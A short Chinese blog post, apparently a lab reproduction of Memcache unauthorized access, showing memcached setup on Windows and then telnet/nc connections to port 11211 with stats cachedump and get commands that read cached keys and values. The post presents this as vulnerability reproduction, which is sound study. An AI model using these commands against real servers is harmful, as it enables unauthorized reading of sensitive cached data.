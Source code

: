 ```yaml
---
title: Memcache未授权访问漏洞
categories:
  - 漏洞复现
abbrlink: 15891
date: 2020-12-08 22:42:06
---
```


###  前言
　　本次环境在win10上搭建<!-- more -->
### 环境搭建

```bash
下载 http://static.runoob.com/download/memcached-win64-1.4.4-14.zip # 64位系统 1.4.4版本
memcached.exe -d install
memcached.exe -d start # 以后memcached将作为windows的一个服务每次开机时自动启动,可在服务里面找到memcached
```

```
#查看进程服务以及端口
netstat -ano | findstr 11211
tasklist | findstr memcached
```

<img src="https://s3.ax1x.com/2020/12/08/rpxlad.png">

### 未授权访问

```
telnet <ip> 11211 或 nc -vv <ip> 11211
```

<img src="https://s3.ax1x.com/2020/12/08/rpxfZ4.png">

```
stats  				  				  # 查看memcache 服务状态
stats items  		 				  # 查看所有items
stats cachedump 32 0  			      # 获得缓存key
get :state:264861539228401373:261588  # 通过key读取相应value,获得实际缓存内容,造成敏感信息泄露
```

<img src="https://s3.ax1x.com/2020/12/08/r9SAc6.png">